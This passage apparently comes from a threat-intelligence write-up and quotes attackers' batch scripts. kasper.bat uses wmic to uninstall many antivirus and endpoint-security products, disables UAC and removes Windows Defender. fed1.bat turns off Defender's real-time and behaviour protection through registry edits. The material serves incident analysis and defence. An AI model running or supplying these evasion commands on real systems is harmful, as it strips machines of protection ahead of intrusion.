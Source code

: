 
Here is an extract from the `kasper.bat` script:



```
start wmic product where name="Webroot SecureAnywhere" call uninstall /nointeractive
start wmic product where name="Symantec Endpoint Protection" call uninstall /nointeractive
start wmic product where name="AVG 2015" call uninstall /nointeractive
start wmic product where name="McAfee VirusScan Enterprise" call uninstall /nointeractive
start wmic product where name="McAfee Agent" call uninstall /nointeractive
start wmic product where name="McAfee DLP Endpoint" call uninstall /nointeractive
start wmic product where name="McAfee Endpoint Security Platform" call uninstall /nointeractive
start wmic product where name="McAfee Endpoint Security Threat Prevention" call uninstall /nointeractive
start wmic product where name="Microsoft Security Client" call uninstall /nointeractive
start wmic product where name="Malwarebytes' Managed Client" call uninstall /nointeractive
start wmic product where name="Sophos System Protection" call uninstall /nointeractive
start wmic product where name="Sophos AutoUpdate" call uninstall /nointeractive
start wmic product where name="Sophos Remote Management System" call uninstall /nointeractive
start wmic product where name="McAfee SiteAdvisor Enterprise" call uninstall /nointeractive
start wmic product where name="Symantec Backup Exec Remote Agent for Windows" call uninstall /nointeractive
start wmic product where name="ESET File Security" call uninstall /nointeractive
reg.exe ADD HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Policies\System /v EnableLUA /t REG\_DWORD /d 0 /f
powershell.exe Set-MpPreference -DisableRealtimeMonitoring $true
powershell.exe Uninstall-WindowsFeature -Name Windows-Defender
```

#### Disabling Windows Defender using multiple techniques


The threat actors executed three other scripts named `fed1.bat`, `fed2.bat` and `fed3.bat` using PowerShell and manipulating several registry keys to disable Windows Defender.


Content of `fed1.bat` script:



```
@echo off
powershell.exe Set-MpPreference -DisableRealtimeMonitoring $true
powershell.exe Uninstall-WindowsFeature -Name Windows-Defender
REG ADD "HKLM\SOFTWARE\Policies\Microsoft\Windows Defender" /v DisableAntiSpyware /t REG\_DWORD /d 1 /f
rem USE AT OWN RISK AS IS WITHOUT WARRANTY OF ANY KIND !!!!!
rem https://technet.microsoft.com/en-us/itpro/powershell/windows/defender/set-mppreference
rem To also disable Windows Defender Security Center include this
rem reg add "HKLM\System\CurrentControlSet\Services\SecurityHealthService" /v "Start" /t REG\_DWORD /d "4" /f
rem 1 - Disable Real-time protection
reg delete "HKLM\Software\Policies\Microsoft\Windows Defender" /f
reg add "HKLM\Software\Policies\Microsoft\Windows Defender" /v "DisableAntiSpyware" /t REG\_DWORD /d "1" /f
reg add "HKLM\Software\Policies\Microsoft\Windows Defender" /v "DisableAntiVirus" /t REG\_DWORD /d "1" /f
reg add "HKLM\Software\Policies\Microsoft\Windows Defender\MpEngine" /v "MpEnablePus" /t REG\_DWORD /d "0" /f
reg add "HKLM\Software\Policies\Microsoft\Windows Defender\Real-Time Protection" /v "DisableBehaviorMonitoring" /t REG\_DWORD /d "1" /f
reg add "HKLM\Software\Policies\Microsoft\Windows Defender\Real-Time Protection" /v "DisableIOAVProtection" /t REG\_DWORD /d "1" /f
reg add "HKLM\Software\Policies\Microsoft\Windows Defender\Real-Time Protection" /v "DisableOnAccessProtection" /t REG\_DWORD /d "1" /f
reg add "HKLM\Software\Policies\Microsoft\Windows Defender\Real-Time Protection" /v "DisableRealtimeMonitoring" /t REG\_DWORD /d "1" /f
```